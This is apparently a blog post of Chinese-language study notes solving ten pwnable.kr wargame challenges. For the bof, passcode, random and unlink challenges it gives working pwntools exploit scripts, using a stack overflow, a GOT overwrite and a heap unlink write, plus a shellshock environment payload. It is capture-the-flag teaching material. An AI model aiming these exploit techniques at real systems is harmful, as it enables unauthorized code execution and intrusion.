


Pwnable.kr Study Notes
学习的网站是pwnable.kr，你可能需要翻墙
P.S. 并没有严格按网站上的顺序做题
Question1：fd
Mommy! what is a file descriptor in Linux?
* try to play the wargame your self but if you are ABSOLUTE beginner, follow this tutorial link: https://www.youtube.com/watch?v=blAxTfcW9VU
ssh fd@pwnable.kr -p2222 (pw:guest)
Writeup：
首先连接 ssh，查看目录发现一份C语言代码
简单的解释一下，这个程序输入的第一个参数仅接受数字输入，将输入的第一个参数的值减去 0x1234 后将其作为 read 函数的第一个参数，此条件下 read 函数将接受输入的第二个参数。然后是一个关于第二个参数的字符串匹配，匹配成功就拿到 flag。
查到 fd 的文档
可以看到当 fd=0 时，read 函数可以读 stdin 里的数据，所以输入的第一个参数就应该是 0x1234+0=4660. 考虑到后面的字符串匹配，第二个参数输入 "LETMEWIN"。成功拿到 flag。
Question2：collision
Daddy told me about cool MD5 hash collision today. I wanna do something like that too!
ssh col@pwnable.kr -p2222 (pw:guest)
Writeup：
看到 MD5 碰撞吓了一跳（明明才第二题，所以其实并没有）。连接 ssh，查看目录发现一份 C 语言代码
整个程序很清晰，需要输入一个长度为 20 的字符串，将输入字符串转换为 int 传给 check_password 函数做运算，如果函数返回值 = 0x21DD09EC 则给 flag。
观察 check_password 函数发现，它把参数以四个字节的长度（int 长度为 4 字节）分割后再全部相加返回 unsigned long 的总和（unsigned long 在 32/64 位环境对应 4/8 字节，从题目看应该是 4 字节）。因为输入的字符串是 20 字节，所以就是把字符串分成 5 份然后加起来。
在加法运算中我们知道，如果不考虑进位的话，aa+bb=(a+b)(a+b)，比如 11+22=33，这对任何进制都是有效的。因为我们只能以字节为基本单位来输入，所以我们以字节为单位来分析，结果 res 中的第 i 个字节的值其实等于被分割后的输入字符串的第i个字符的值的总和 sum-n*0xff 左右（考虑到进位）。因为目标机是小端序，所以这个对应顺序要反一转。举个例子，把 check_password 函数写在本地编译执行，传入字符串 abcdabcdabcdabcdabcd，输出结果 0xf5f0ebe5，其中 0xe5=0x61(a)*5-0xff，0xeb=0x62(b)*5-0xff-1 (前一项进位)，0xf0=0x63(c)*5-0xff-1 (前一项进位)，0xf5=0x64(d)*5-0xff-1 (前一项进位)。
所以可以据此对 0x21DD09EC 进行逐字节碰撞，翻出 ascii 码表根据 sum[i]-n*0xff≈res[5-i] (i=1,2,3,4) 确定大概范围，然后再进行正负 2 以内的微调抵消进位就可以了。
最后我构造的字符串为 "dh_9bh_:bh_9bh_:bh_:"，拿到 flag。
Question3：bof
Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?
Download : http://pwnable.kr/bin/bof Download : http://pwnable.kr/bin/bof.c
Running at : nc pwnable.kr 9000
Writeup：
题目说的很清楚这是一个简单粗暴的缓冲区溢出（然而还不是花了一堆时间来装
edb，这篇文章隔壁有安装心得） 这次给了一份 C 代码和一个 elf
程序，给的代码如下 1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
void func(int key){
char overflowme[32];
printf("overflow me : ");
gets(overflowme); // smash me!
if(key == 0xcafebabe){
system("/bin/sh");
}
else{
printf("Nah..\n");
}
}
int main(int argc, char* argv[]){
func(0xdeadbeef);
return 0;
}1
2
3
4
5
6
7from pwn import *
p = remote('pwnable.kr', 9000)
p.sendline('a' * 52 + '\xbe\xba\xfe\xca' + '\n')
p.interactive()
Question4：flag
Papa brought me a packed present! let's open it.
Download : http://pwnable.kr/bin/flag
This is reversing task. all you need is binary
Writeup:
逆向题。 记事本打开
看到 upx 壳。
扔进终端 upx -d flag
脱掉过后扔进 ida
看到程序会 malloc 一段内存，然后将 flag 拷贝进去。 打开 edb，执行到 malloc，监视这段地址，直到后面 strcpy 执行完毕后可以看到 flag

Question5：passcode
Mommy told me to make a passcode based login system. My initial C code was compiled without any error! Well, there was some compiler warning, but who cares about that?
ssh passcode@pwnable.kr -p2222 (pw:guest)
Writeup：
连接过后拿到一份源码
login() 里面对两个 passcode 输入是有问题的。但是一时又不知道如何利用。
仔细分析第一次在 welcome() 里面的输入，输入的字符串是函数内的局部变量，当函数调用结束，这个变量就会失去价值，变为栈里的残留数据。那我们能不能通过控制这个残留的数据来影响到 login() 当中的 passcode呢？
接下来用 edb 加载程序查看一下堆栈情况。 我们首先运行到输入 passcode1 的位置 
passcode1 随便输入一个值，然后 scanf 会将未初始化的 passcode1
的值作为一个地址去寻址，这里程序多半会挂，我们看这时的栈空间。 
这时程序已经挂了，原因是不能访问 0xf75becab 这个地址。 在图中我们可以看到 0xff9acb88 是之前 welcome() 里输入数据的残留。而 0xff9acbe8 这里就是 passcode1 的地址，它们中间的偏移值是 0x60 = 96。算上一个 32 位的地址占用 4 个字节。刚好能满足 96 + 4 = 100，即 name[] 的占用空间。
能操控 passcode1 里的数据后我们就能往任意地址写入 4 字节的数据。 方便起见，这里选择往 fflush() 的 GOT 表里面写入登陆成功那段代码的地址。这样在输入 passcode1 后，紧跟着就能执行登录成功代码拿到 flag。
所以进 IDA 查了一下 GOT 表信息，找到了 fflush() 的 GOT 表地址
然后是查看 loginOK 那段代码的地址
这里往 GOT 表写 0x080485d7 或者 0x080485e3 都是可以的，因为我本地调试的时候想要个回显，所以我写的是 0x080485d7（0x080485d7=134514135）
根据以上写出 payload 1
2
3
4
5
6
7
8
9
10from pwn import *
passcode_ssh = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)
p = passcode_ssh.process(executable = "./passcode")
print p.recv()
p.sendline('a' * 96 + '\x04\xa0\x04\x08')
print p.recv()
p.sendline('134514135')
print p.recvall()
Question6：random
Daddy, teach me how to use random value in programming!
ssh random@pwnable.kr -p2222 (pw:guest)
Writeup
大水题，之后大概会把 pwnable 的文章整合一下。 下载代码 
看到这里的随机数生成器没有添加种子，所以每次生成的数是一样的。
扔进 edb，跑到 rand()，看一下 eax 里存放的返回值 
根据异或的原理解一下 1
0x6b8b4567 ^ 0xdeadbeef = 3039230856
exp: 1
2
3
4
5
6
7
8
9from pwn import *
random_ssh = ssh(host='pwnable.kr',user='random',password='guest',port=2222)
p = random_ssh.process(executable = "./random")
p.sendline('3039230856')
print p.recvall()
Question7：leg
Daddy told me I should study ARM. But I prefer to study my leg!
Download : http://pwnable.kr/bin/leg.c Download : http://pwnable.kr/bin/leg.asm
ssh leg@pwnable.kr -p2222 (pw:guest)
Writeup：
题目给了一份源码一份反汇编代码
C
1 | #include <stdio.h> |
asm
1 | (gdb) disass main |
第一次看 ARM 汇编，去查了下资料。 首先确定 pc 寄存器和 lr 寄存器是什么 pc 寄存器（r15）是程序计数器，它很像 X86 里的 ip 寄存器，保存下一条指令的地址，严格来讲，r15（pc）总是指向“正在取指”的指令。这里下面会做说明。 lr 寄存器（r14）是连接寄存器，它保存函数调用过程中的返回地址。也就是说函数返回的时候程序就是跳转到lr存的地址。 另外，ARM 用 r0 来保存函数返回的值。
由此我们来分析以上代码，key1 返回 pc 的值，key2 返回 pc + 4，key3 返回 lr 的值。
因为对 pc 的理解不完全正确，我当时在这里卡了很久，后来翻了 ET 的博客终于发现 pc 存的其实不是接下来要执行的地址。
PC 代表程序计数器，流水线使用三个阶段，因此指令分为三个阶段执行：1.取指（从存储器装载一条指令）；2.译码（识别将要被执行的指令）；3.执行（处理 指令并将结果写回寄存器）。而 R15（PC）总是指向“正在取指”的指令，而不是指向“正在执行”的指令或正在“译码”的指令。一般来说，人们习惯性约定 将“正在执行的指令作为参考点”，称之为当前第一条指令，因此 PC 总是指向第三条指令。当 ARM 状态时，每条指令为 4 字节长，所以PC始终指向该指令地址 加 8 字节的地址，即：PC 值 = 当前程序执行位置 + 8； ARM 指令是三级流水线，取指，译指，执行时同时执行的，现在 PC 指向的是正在取指的地址，那么 CPU 正在译指的指令地址是 PC - 4（假设在 ARM 状态 下，一个指令占 4 个字节），CPU 正在执行的指令地址是 PC - 8，也就是说 PC 所指向的地址和现在所执行的指令地址相差8。
这里再注意一下 key2 中的 .code 这样的伪指令。 .code 16 表示下面的代码被声明为 thumb 指令集编译 .code 32 表示下面的代码被声明为 ARM 指令集编译 thumb 指令集是 16 位而 ARM 指令集是 32 位，所以在这里 PC 的值也要相应的修改。
综上我们可以计算出 key1（PC） = 0x00008cdc + 0x8 = 0x00008ce4
key2（PC + 4） = 0x00008d04 + 0x4 + 0x4 = 0x00008d0c
key3（lr） = 0x00008d80
相加得到108400
Question8：mistake
We all make mistakes, let's move on. (don't take this too seriously, no fancy hacking skill is required at all)
This task is based on real event Thanks to dhmonkey
hint : operator priority
ssh mistake@pwnable.kr -p2222 (pw:guest)
Writeup：
水题，先看源码
1 |
|
hint 已经说得很清楚是一个运算符优先级的问题，从头看下来在 17 行的位置就能发现问题，因为 < 的执行顺序是优先于 = 的，所以这里 fd 的值应该恒为 0，后面的 read 变成从 stdin 里面读取数据。
所以第一次输入就是 pw_buf, 第二次输入就是 pw_buf2，中间那个 XOR 逆一下，假如以“0123456789”作为第一次输入，那个分别把 '0' ~ '9' 与 1 异或得到的就是第二次输入。 稍微注意一下这里的函数以字符串接受输入，但是照上面那个输入的话这里其实无所谓数字型或者字符串型，因为结果是一样的，pw_buf2 就是“1032547698”。
Question9：shellshock
Mommy, there was a shocking news about bash. I bet you already know, but lets just make it sure :)
ssh shellshock@pwnable.kr -p2222 (pw:guest)
Writeup:
Prerequisite:
简单的说一下就是，比如你在 shell 里输入 fun(){ echo HelloWorld; }; 会定义函数 fun（写在一行里面的时候记得大括号旁留空格），如果是 fun = '(){ echo HelloWorld; };' 的话，正常的 shell 会把它当做一个变量，但是存在的漏洞的 bash 在 fun 被载入环境变量的时候会把它解释为一个函数。这样我们可以在函数体后面加上我们要执行的代码，bash 在载入环境变量的时候会执行你追加的代码。相关的实例在 plusls的博客里有介绍。 更深入的原理可以在这篇文章里看到: https://coolshell.cn/articles/11973.html
Solution
题目已经告诉你是 shellshock 漏洞那就可以直接打了。 env 指令可以直接定义环境变量，我们定义一个空的函数 fun = '(){ :; };'（:在 shell 里表示空语句），然后再这个函数后面追加要执行的代码就能拿到 shell.
最后构造的 payload: env fun='() { :;}; /bin/cat flag' ./shellshock 这里用 export 写环境变量也可以。
Question10: unlink
Daddy! how can I exploit unlink corruption?
ssh unlink@pwnable.kr -p2222 (pw: guest)
Writeup:
Prerequisition
堆溢出中的 unlink 做这个题了解一下文章中第一部分就可以
Solution
连上去拿到一份代码如下
1 |
|
第一个涉及到堆溢出的题目，这个题目简单还原了一个古老 unlink 场景（现代的 unlink 由于加入了新的安全检查机制，利用难度更高）。 很明显我们可以通过堆溢出来触发 unlink 获得一个有副作用的任意地址写。 最开始想到这里的时候的想法是直接把 main 函数的返回地址改到 shell，但是动手写脚本之前反应过来，这样写的话会产生一个副作用，它将会修改返回地址的同时，unlink 也会修改到 shell 函数的内容，这样就会引发异常，拿不到 shell。而程序开了 NX 保护，这样写 shellcode 也没有办法执行。 然后我在这里卡了很久，最后在网络上找到了其它选手的解法，非常的妙。
这里利用的main函数最后的一段代码。
可以看到在 retn 之前有针对 esp 的几个操作，而 retn 其实就是 pop
eip，只要我们能控制最后 esp 里的东西，我们就能控制程序的执行流程。esp
最后是取决于 1
2mov ecx, [ebp-4]
lea esp, [ecx-4]
由于给出了栈地址和堆地址，假设我把 shellAddr 写在 A->buf
的开头，那 shellAddr+4 就等于 A+12，而 ebp
这个看一下栈空间的结构也不难推出来，最后 payload 的结构就是
shellAddr + padding + (shellAddr+4) + (ebp-4)
最后的脚本如下 1
2
3
4
5
6
7
8
9
10
11
12from pwn import *
shell_addr = 0x080484eb
pwn_ssh = ssh(host='pwnable.kr',user='unlink',password='guest',port=2222)
p = pwn_ssh.process(executable="./unlink")
line1=p.readline().strip()
line2=p.readline().strip()
stack_addr = int(line1.split(': 0x')[1], 16)
heap_addr = int(line2.split(': 0x')[1], 16)
p.sendline(p32(shell_addr) + 12*'a' + p32(heap_addr + 0xc) + p32(stack_addr + 0x10))
p.interactive()